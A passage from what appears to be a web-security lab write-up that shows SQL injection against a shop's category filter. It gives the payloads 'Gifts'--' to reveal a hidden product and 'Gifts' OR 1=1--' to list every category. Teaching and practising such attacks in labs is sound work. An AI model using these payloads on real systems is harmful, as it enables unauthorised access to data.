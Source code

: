 Using the following payload we get 4 items instead of only 3, because it shows
both the released and the hidden one:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'-- 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/faa0c918046d4d3bae2234182dfb5198.png)

To show all values we add OR 1=1 to display all categories:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+OR+1=1--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
